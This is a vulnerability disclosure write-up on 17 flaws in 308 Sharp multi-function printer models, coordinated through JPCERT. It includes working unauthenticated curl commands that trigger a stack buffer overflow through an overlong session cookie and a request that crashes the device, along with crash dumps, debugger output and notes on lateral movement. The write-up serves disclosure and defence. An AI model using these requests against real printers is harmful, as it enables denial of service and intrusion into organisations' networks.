




17 vulnerabilities in Sharp Multi-Function Printers
Product description
Multifunction printers offer more than just print. These devices integrate the power of a printer, photocopier and scanner into one single device.
From https://www.sharp.co.uk/printers-photocopiers/explore-sharp-printers/sharp-multifunction-printers
Vulnerability Summary
Vulnerable versions: 308 different models of Sharp Multi-Function Printers (MFP) are vulnerable. It is recommended to visit the official Sharp advisory and apply security patches and replace unsupported Multi-Function Printers (MFP) models.
The summary of the vulnerabilities is as follows:
- CVE-2024-28038 - Memory corruption in the main program - Remote Code Execution against the web server without authentication
- CVE-2024-36251 - Invalid (0x000000d0) pointer dereference - Remote DoS without authentication
- CVE-2024-28955, CVE-2024-29146, CVE-2024-29978, CVE-2024-32151 - World-readable coredump files and insecure storage of credentials
- CVE-2024-33605 - Arbitrary Directory Listing without authentication
- non-assigned CVE vulnerability - Local File Inclusion allowing to read any file (e.g. Coredump files) without authentication
5.1 Generation of the coredump file on the printer
5.2 Local File Inclusion of the coredump file
5.3 Retrieve of credentials using the coredump files
5.4 Retrieve of credentials using configuration files - CVE-2024-33610 - Backdoor webpage - Listing of session cookies without authentication
- non-assigned CVE vulnerability - Configuration webpages reachable without authentication
- CVE-2024-33610 - Reboot without authentication - Remote DoS
- CVE-2024-35244 - Backdoor access - Service
- non-assigned CVE vulnerability - Backdoor access - FSS User
- non-assigned CVE vulnerability - Insecure default credentials
- CVE-2024-33616 - Read admin access on telnet
- non-assigned CVE vulnerability - XSS on all the Sharp printers (login.html)
- non-assigned CVE vulnerability - XSS on all the Sharp printers (all other HTML pages)
- CVE-2024-34162 - Exfiltration of LDAP credentials by downgrading the security
- CVE-2024-36248 - Hardcoded Google API Keys
- non-assigned CVE vulnerability - Hardcoded Amazon API Keys
- N-day CVE-2022-45796 - Remote Code Execution
TL;DR: An attacker can compromise Sharp Multi-Function Printers using multiple vulnerabilities.
List of vulnerable models of Sharp Multi-Function Printers (308 models):
BP-30C25, BP-30C25T, BP-30C25Y, BP-30C25Z, BP-30M35, BP-30M31, BP-30M28, BP-30M35T, BP-30M31T, BP-30M28T,
BP-50C36, BP-50C31, BP-50C26, BP-50C65, BP-50C55, BP-50C45, BP-50M36, BP-50M31, BP-50M26, BP-50M55,
BP-50M50, BP-50M45, BP-55C26, BP-60C45, BP-60C36, BP-60C31, BP-70C36, BP-70C31, BP-70C65, BP-70C55,
BP-70C45, BP-70M36, BP-70M31, BP-70M65, BP-70M55, BP-70M45, BP-90C70, BP-90C80, BP-B547WD, BP-B537WR,
BP-B550WD, BP-B540WR, BP-70M90, BP-70M75, MX-M1205, MX-M1055, DX-2500N, DX-2000U, MX-2010U, MX-1810U,
MX-2314N, MX-2314NR, MX-2630N, MX-3050N A, MX-3050V A, MX-3100N, MX-3100G, MX-2600N, MX-2600G, MX-3101N,
MX-2601N, MX-2301N, MX-3111U, MX-2310U, MX-2310R, MX-3115N, MX-2615N, MX-2615 A, MX-3116N, MX-2616N,
MX-3551, MX-3051, MX-2651, MX-3570N, MX-3070N, MX-3570V, MX-3070V, MX-3571, MX-3071, MX-3571S,
MX-3071S, MX-3610N, MX-3110N, MX-2610N, MX-3110N A, MX-3610NR, MX-3640N, MX-3140N, MX-2640N, MX-3140N A,
MX-3640NR, MX-3140NR, MX-2640NR, MX-4050N, MX-3550N, MX-3050N, MX-4050V, MX-3550V, MX-3050V, MX-4060N,
MX-3560N, MX-3060N, MX-4060V, MX-3560V, MX-3060V, MX-4061, MX-3561, MX-3061, MX-4061S, MX-3561S,
MX-3061S, MX-5001N, MX-5000N, MX-4101N, MX-4100N, MX-5112N, MX-5111N, MX-5110N, MX-4112N, MX-4111N,
MX-4110N, MX-5141N A, MX-4140N A, MX-5141N, MX-5140N, MX-4141N, MX-4140N, MX-6050N, MX-5050N, MX-6050V,
MX-5050V, MX-6051, MX-5051, MX-4051, MX-6070N A, MX-4070N A, MX-3070N A, MX-6070N, MX-5070N, MX-4070N,
MX-6070V A, MX-4070V A, MX-3070V A, MX-6070V, MX-5070V, MX-4070V, MX-6071, MX-5071, MX-4071, MX-6071S,
MX-5071S, MX-4071S, MX-7040N, MX-6240N, MX-7500N, MX-6500N, MX-7580N, MX-6580N, MX-8081, MX-7081,
MX-8090N, MX-7090N, MX-B400P, MX-B380P, MX-B401, MX-B381, MX-B402, MX-B382, MX-B402P, MX-B382P,
MX-B402SC, MX-B382SC, MX-B455W, MX-B355W, MX-B455WT, MX-B355WT, MX-B455WZ, MX-B355WZ, MX-B456WH, MX-B356WH,
MX-B456W, MX-B356W, MX-B476WH, MX-B376WH, MX-B476W, MX-B376W, MX-C301W, MX-C301, MX-C304, MX-C303,
MX-C304WH, MX-C303WH, MX-C304W, MX-C303W, MX-C312, MX-C311, DX-C311, DX-C311J, MX-C310, DX-C310,
MX-C381, DX-C381, MX-C380, MX-C381B, MX-C400P, MX-C380P, MX-C401, DX-C401, DX-C401 J, MX-C400,
DX-C400, MX-C402SC, MX-C382SC, MX-C382SCB, MX-M1204, MX-M1054, MX-M904, MX-M1206, MX-M1056, MX-M2630,
MX-M2630 A, MX-M266N, MX-M265N, MX-M265U, MX-M266NV, MX-M265NV, MX-M265UV, MX-M3050 A, MX-M314NV, MX-M264NV,
MX-M315NE, MX-M265NE, MX-M315NE, MX-M265NE, MX-M315V, MX-M265V, MX-M354N, MX-M314N, MX-M264N, MX-M354NR,
MX-M314NR, MX-M264NR, MX-M354U, MX-M314U, MX-M264U, MX-M3550, MX-M3050, MX-M3551, MX-M3051, MX-M2651,
MX-M356N, MX-M316N, MX-M315N, MX-M356U, MX-M315U, MX-M356NV, MX-M316NV, MX-M315NV, MX-M356UV, MX-M315UV,
MX-M3570, MX-M3070, MX-M3571, MX-M3071, MX-M3571S, MX-M3071S, MX-M465N A, MX-M365N A, MX-M503N, MX-M453N,
MX-M363N, MX-M283N, MX-M503U, MX-M453U, MX-M363U, MX-M564N, MX-M464N, MX-M364N, MX-M564N A, MX-M565N,
MX-M465N, MX-M365N, MX-M6050, MX-M5050, MX-M4050, MX-M6051, MX-M5051, MX-M4051, MX-M6070 A, MX-M4070 A,
MX-M3070 A, MX-M6070, MX-M5070, MX-M4070, MX-M6071, MX-M5071, MX-M4071, MX-M6071S, MX-M5071S, MX-M4071S,
MX-M753N, MX-M753U, MX-M623N, MX-M623U, MX-M754N, MX-M654N, MX-M754N A, MX-M654N A, MX-M7570, MX-M6570,
MX-M905.
Miscellaneous notes:
This security assessment was entirely done using a blackbox approach and fully-remote - I only had some IPs of printers (no physical access and no credentials for admin or normal users). Consequently, the physical security of the printers was not analyzed and the vulnerabilities were confirmed with about 15 different models running the latest firmware versions (MX-3060N, MX-3061, MX-3070N, MX-3560N, MX-3561, MX-5070V, MX-5071, MX-C3051R MX-C3081R, MX-M365N, MX-M453U, MX-M465N, MX-M5050, MX-M5051, MX-M6051 and MX-M6071).
The vulnerabilities were communicated to JPCERT on June 1, 2023 and communications with JPCERT were very effective - they fully managed interactions with Sharp.
Impacts
An attacker can compromise Sharp multi-function printers (MFP) and execute code. These printers are running Linux and are powerful. They are ideal to host implants (and fun programs, like Bettercap) and move laterally inside infrastructures.
Recommendations
- Use network segmentation to isolate MFPs.
- Apply security patches.
- Replace unsupported MFPs.
Details - Memory corruption in the main program - Remote Code Execution against the web server without authentication
By Default, Sharp printers are using a single super-program that will run as root and provide network daemons (ftp, http, snmp, raw-printer-9100, ...). This single program is vulnerable to a stack-based buffer overflow without authentication.
This main program runs as root and its HTTP stack is vulnerable, without authentication, to a stack-based buffer overflow, allowing an attacker to redirect the control flow of the program and achieve remote code execution.
main program listening on port 80/tcp:
sh-4.3# ps -auxww | grep main
root 1186 6.3 5.3 2124656 172688 ? Sl 00:27 43:36 /tmp/app/ui/ui_mainview -hidecursor
root 2081 3.9 10.9 2515532 348980 ? Sl 00:27 26:52 /tmp/main/main -cpu=1 -stack=8000 -fifo -nosigmask -nodlychk
root 13598 0.0 0.0 1980 368 pts/0 S+ 11:49 0:00 grep main
sh-4.3# netstat -laputen | grep main
tcp 0 0 0.0.0.0:50001 0.0.0.0:* LISTEN 0 10217 2081/main
tcp6 0 0 :::443 :::* LISTEN 0 12538 2081/main
tcp6 0 0 :::52000 :::* LISTEN 0 33214 2081/main
tcp6 0 0 :::10080 :::* LISTEN 0 18542 2081/main
tcp6 0 0 :::515 :::* LISTEN 0 10166 2081/main
tcp6 0 0 :::53000 :::* LISTEN 0 12539 2081/main
tcp6 0 0 :::10443 :::* LISTEN 0 18545 2081/main
tcp6 0 0 :::5900 :::* LISTEN 0 33233 2081/main
tcp6 0 0 :::9100 :::* LISTEN 0 12534 2081/main
tcp6 0 0 :::80 :::* LISTEN 0 12537 2081/main
tcp6 0 0 :::21 :::* LISTEN 0 10164 2081/main
tcp6 0 0 :::631 :::* LISTEN 0 10168 2081/main
udp 0 0 127.0.0.1:9473 0.0.0.0:* 0 13202 2081/main
udp6 0 0 :::5353 :::* 0 12497 2081/main
udp6 0 0 :::161 :::* 0 33229 2081/main
udp6 0 0 :::546 :::* 0 33145 2081/main
sh-4.3#
By default, the printer will provide a MFPSESSIONID cookie when reaching the printer with a browser as shown below. This cookie will then be used for authentication purposes if the user decides to log into the printer. For example, with a HTTP request to /main.html:
kali% curl -kv http://10.0.0.1/main.html | head
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Trying 10.0.0.1:80...
* Connected to 10.0.0.1 (10.0.0.1) port 80 (#0)
> GET /main.html HTTP/1.1
> Host: 10.0.0.1
> User-Agent: curl/7.88.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: Rapid Logic/1.1
< MIME-version: 1.0
< Date: Thu Jan 1 02:32:35 1970 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: close
< Pragma: no-cache
< Cache-Control: no-cache
< X-Frame-Options: DENY
< Set-Cookie: MFPSESSIONID=020015D2C59E7B68C9FB5F411B0E59FCBEF70F7E03CEE4C4C5A12023051115051847BC555A
< Extend-sharp-setting-status: 0
<
{ [2 bytes data]
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8" />
<meta name="viewport" content="width=320,initial-scale=1.0" />
<meta name="format-detection" content="telephone=no" />
<meta http-equiv="X-UA-Compatible" content="IE=8; IE=10; IE=11" />
<title>Machine Identification - MX-M6071</title>
<link rel="stylesheet" href="other.css" type="text/css" />
<link rel="stylesheet" href="color1.css" type="text/css" />
* Failure writing output to destination
* Failed reading the chunked-encoded stream
100 6950 0 6950 0 0 196k 0 --:--:-- --:--:-- --:--:-- 199k
* Closing connection 0
curl: (23) Failure writing output to destination
kali%
By sending a malicious HTTP request with a long MFPSESSIONID cookie, it is possible to overwrite the stack of the main program.
This payload will send a MFPSESSIONID cookie with a payload of 643 bytes. This payload will overwrite a stack buffer inside the main program. The buffer is probably 639 bytes and EDBB will overwrite the stack:
kali% var=`perl -e "print 'A'x639"`; curl -v -b "MFPSESSIONID=${var}EDCB" http://10.0.0.1/system.html
* Trying 10.0.0.1:80...
* Connected to 10.0.0.1 (10.0.0.1) port 80 (#0)
> GET /system.html HTTP/1.1
> Host: 10.0.0.1
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: MFPSESSIONID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEDCB
>
If /system.html does not exist, it is possible to use /main.html or any existing html webpage instead:
kali% var=`perl -e "print 'A'x639"`; curl -v -b "MFPSESSIONID=${var}EDCB" http://10.0.0.1/main.html
* Trying 10.0.0.1:80...
* Connected to 10.0.0.1 (10.0.0.1) port 80 (#0)
> GET /system.html HTTP/1.1
> Host: 10.0.0.1
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: MFPSESSIONID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEDCB
>
If the first exploitation does not work, it is possible to resend it again to overwrite the stack the second time:
kali% var=`perl -e "print 'A'x639"`; curl -v -b "MFPSESSIONID=${var}EDCB" http://10.0.0.1/system.html
* Trying 10.0.0.1:80...
* Connected to 10.0.0.1 (10.0.0.1) port 80 (#0)
> GET /system.html HTTP/1.1
> Host: 10.0.0.1
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: MFPSESSIONID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEDCB
kali% var=`perl -e "print 'A'x639"`; curl -v -b "MFPSESSIONID=${var}EDCB" http://10.0.0.1/system.html
* Trying 10.0.0.1:80...
* Connected to 10.0.0.1 (10.0.0.1) port 80 (#0)
> GET /system.html HTTP/1.1
> Host: 10.0.0.1
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: MFPSESSIONID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEDCB
The dmesg output on the printer will confirm that the main program crashed while trying to reach the address 0x42434445, corresponding to the previous EDCB sent inside the cookie. EDCB is represented in the little-endian format as ARM is little-endian and 0x42434445 can be found inside several registers (but not PC).
output of dmesg:
[ 127.970220] main[15612]: unhandled level 2 translation fault (11) at 0x42434445, esr 0x92000006
[ 127.979463] pgd = ffff80007a07e000
[ 127.982981] [42434445] *pgd=00000000fa099003, *pud=00000008c6f9d003, *pmd=0000000000000000
[ 127.992811] CPU: 1 PID: 15612 Comm: main Tainted: P O 4.1.46-rt52 #2
[ 128.000296] Hardware name: LS1043A MFP Board (DT)
[ 128.005195] task: ffff8008372c69c0 ti: ffff80083dde0000 task.ti: ffff80083dde0000
[ 128.012710] PC is at 0x20d4ff8
[ 128.015761] LR is at 0x2a0
[ 128.018465] pc : [<00000000020d4ff8>] lr : [<00000000000002a0>] pstate: 900f0010
[ 128.026024] sp : 000000008f12f7c0
[ 128.029335] x12: 0000000042434445
[ 128.032981] x11: 000000008fd45008 x10: 0000000000000001
[ 128.038298] x9 : 0000000091247bf8 x8 : 000000008fd5648c
[ 128.043678] x7 : 0000000000000000 x6 : 000000008fd56c58
[ 128.048996] x5 : 000000008fd569bc x4 : 0000000008b90bdc
[ 128.054388] x3 : 0000000042434445 x2 : 0000000042434445
[ 128.059834] x1 : 000000008fd569b8 x0 : 0000000000000001
On the printer, using GDB, we will confirm the main program crashed and the stack has been successfully corrupted:
sh-4.3# ps -auxww|grep main
root 1186 9.7 4.9 2123632 158080 ? Sl 11:31 0:21 /tmp/app/ui/ui_mainview -hidecursor
root 2023 7.8 9.8 2505880 316360 ? Sl 11:31 0:15 /tmp/main/main -cpu=1 -stack=8000 -fifo -nosigmask -nodlychk
root 26544 0.0 0.0 1980 376 pts/0 S+ 11:34 0:00 grep main
sh-4.3# gdb -p 2023
GNU gdb (GDB) 7.10.1.20160210-cvs
warning: File "/lib/libthread_db-1.0.so" auto-loading has been declined by your `auto-load safe-path' set to "$debugdir:$datadir/auto-load".
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
0xf744f1c4 in pthread_join () from /lib/libpthread.so.0
(gdb) c
...
[LWP 32749 exited]
[New LWP 32750]
[New LWP 32751]
[LWP 32751 exited]
[New LWP 32752]
...
[New LWP 27196]
[LWP 27196 exited]
[New LWP 27197]
Program received signal SIGSEGV, Segmentation fault.
[Switching to LWP 27195]
0x020d4ff8 in ?? ()
(gdb) bt
#0 0x020d4ff8 in ?? ()
#1 0x000002a0 in ?? ()
Backtrace stopped: previous frame identical to this frame (corrupt stack?)
(gdb) info reg
r0 0x1 1
r1 0x903e0ec8 2419986120
r2 0x42434445 1111704645
r3 0x42434445 1111704645
r4 0x8b90bdc 146344924
r5 0x903e0ecc 2419986124
r6 0x903e1168 2419986792
r7 0x0 0
r8 0x903e082c 2419984428
r9 0x918ddcb8 2441993400
r10 0x1 1
r11 0x903db008 2419961864
r12 0x42434445 1111704645
sp 0x72231fc0 0x72231fc0
lr 0x2a0 672
pc 0x20d4ff8 0x20d4ff8
cpsr 0x90050010 -1878720496
(gdb) info frame
Stack level 0, frame at 0x72231fc0:
pc = 0x20d4ff8; saved pc = 0x2a0
called by frame at 0x72231fc0
Arglist at 0x72231fc0, args:
Locals at 0x72231fc0, Previous frame's sp is 0x72231fc0
(gdb)
There is no ASLR in the main program; the addresses are always identical therefore exploitation is very likely.
Exploitation was not attempted since no enough time was allocated to develop such exploit during this security assessment and I already had a remote shell as root on the printers. Sharp confirmed that exploitation is possible.
An attacker with a RCE vulnerability can then move laterally and use Wifi to exfiltrate information:
bash-4.3# iwlist ath0 scan
ath0 Scan completed :
Cell 01 - Address: 00:3C:10:01:02:03
ESSID:"[REDACTED]"
Mode:Master
Frequency:2.412 GHz (Channel 1)
Quality=93/94 Signal level=-54 dBm Noise level=-95 dBm
Encryption key:off
Bit Rates:12 Mb/s; 18 Mb/s; 24 Mb/s; 36 Mb/s; 48 Mb/s
54 Mb/s
Extra:bcn_int=100
bash-4.3#
Details - Invalid (0x000000d0) pointer dereference - Remote DoS without authentication
It was observed that the /billcodedef_sub_sel.html webpage is reachable without authentication on Sharp printers. A specific request to this webpage will trigger an invalid pointer deference in the main program. The printer will then reboot after creating coredump files.
{kind=link}
When submitting the request with the Sub Code test by pressing Search Start(Q), the HTTP request will be:
HTTP request using the HTML form from billcodedef_sub_sel.html:
{kind=link}
It is possible to modify the HTTP request to change curr_page_url=%2Fbillcodedef_sub_sel.html to curr_page_url=%2Fbillcodedef_sub_sel.html?. A question mark was added after billcodedef_sub_sel.html.
The resulting request will be:
{kind=link}
The corresponding malicious HTTP request to trigger the DoS is:
POST /billcodedef_sub_sel.html? HTTP/1.1
Host: 10.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 406
Origin: http://10.0.0.1
Connection: close
Referer: http://10.0.0.1/billcodedef_sub_sel.html?
Cookie: MFPSESSIONID=020035B15A47378CF80C6175263F714EEF9118E72A1AA6C9CAC6202305181146331E5FF54; sideBarflag=1
Upgrade-Insecure-Requests: 1
billing_code_def_selWebchg=&action=searchbtn&ordinate=0&token2=AEC039F52DC886D169AC7F977F61D4C61295539BC0A3572B08E37FB291B9A766E238FB699426F67B&ggt_textbox%288%29=test&ggt_textbox%2811%29=&ggt_select%2829%29=1&billing_radio=2%2C&BillingCode%282%2C%29=Not+Set&BillingCodeName%28%29=&ggt_hidden%2839%29=0&ggt_hidden%2840%29=1&ggt_hidden%2844%29=&curr_page_url=%2Fbillcodedef_sub_sel.html?&selBillingCodeName=
We can also reproduce the issue using curl:
kali% curl -i -s -k -X $'POST' -H $'Host: 10.0.0.1' --data-binary 'curr_page_url=%2Fbillcodedef_sub_sel.html?' 'http://10.0.0.1/billcodedef_sub_sel.html'
On the printer, we can see a crash:
[ 9914.440518] main[18602]: unhandled level 3 translation fault (11) at 0x000000d0, esr 0x92000007
[ 9914.453538] pgd = ffff80082f408000
[ 9914.456936] [000000d0] *pgd=00000000f9ea6003, *pud=00000000f9f6e003, *pmd=00000000f9c0f003, *pte=0000000000000000
[ 9914.468751] CPU: 1 PID: 18602 Comm: main Tainted: P O 4.1.46-rt52 #2
[ 9914.476433] Hardware name: LS1043A MFP Board (DT)
[ 9914.481138] task: ffff80083de6c680 ti: ffff80082cb20000 task.ti: ffff80082cb20000
[ 9914.488691] PC is at 0x228fe6c
[ 9914.491744] LR is at 0x228f820
[ 9914.494830] pc : [<000000000228fe6c>] lr : [<000000000228f820>] pstate: 600f0010
[ 9914.502227] sp : 000000007212fd70
[ 9914.505539] x12: 00000000ffffffff
